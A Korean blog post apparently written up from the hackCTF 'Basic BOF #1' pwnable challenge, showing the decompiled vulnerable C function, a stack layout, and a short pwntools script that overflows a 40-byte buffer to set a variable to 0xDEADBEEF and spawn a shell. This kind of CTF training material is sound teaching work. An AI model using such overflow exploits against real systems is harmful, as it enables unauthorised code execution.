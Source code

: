 ```yaml
---
layout: post
title:  "[hackCTF]Basic BOF #1"
date:   2020-02-09
categories: c python
---
```

hackCTF pwnable 첫번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

### ida
```c
  int __cdecl main(int argc, const char **argv, const char **envp)
  {
    char s; // [esp+4h] [ebp-34h]
    int v5; // [esp+2Ch] [ebp-Ch]

    v5 = 67305985;
    fgets(&s, 45, stdin); // s에 45바이트 입력 받음
    printf("\n[buf]: %s\n", &s);
    printf("[check] %p\n", v5);
    if ( v5 != 67305985 && v5 != -559038737 ) // v5가 특정 두 값이 아니면
      puts("\nYou are on the right way!"); // "You are on the right way!" 출력
    if ( v5 == -559038737 ) // v5가 특정 값이면
    {
      puts("Yeah dude! You win!\nOpening your shell...");
      system("/bin/dash"); // 쉘을 띄울 수 있다!
      puts("Shell closed! Bye.");
    }
    return 0;
```

***
메모리 구조를 정리해보자.

| ebp |          |
|:---:|:--------:|
| ... |          |
|  v5 (67305985) / | esp+0x2C |
| ... |          |
| s   | esp+0x4  |
| ... |          |
| esp | esp+0    |

***
취약점 : fgets(&s, 45, stdin)  
목표 : v5  
∴ payload를 v5까지 덮을 수 있도록 만들자.


### exploit.py
```python
  #!/usr/bin/python
  from pwn import *

  p = process('./bof_basic')

  payload = "A"*(0x2c-0x4)+p32(0xDEADBEEF)

  p.sendline(payload)

  p.interactive()
```

-559038737는 16진수로 변환하면 0xDEADBEEF가 된다. 40byte를 아무 값으로 채운다음 p32 방식으로 0xDEADBEEF 값을 패킹해 payload 값을 만든다.

## 결과  
![0102](https://drive.google.com/uc?id=1DCHfkrbOkWFKlbtl9krspfNhFJzKnpQU)


p32 : little endian 방식으로 패킹해줌 (u32 : 언패킹)
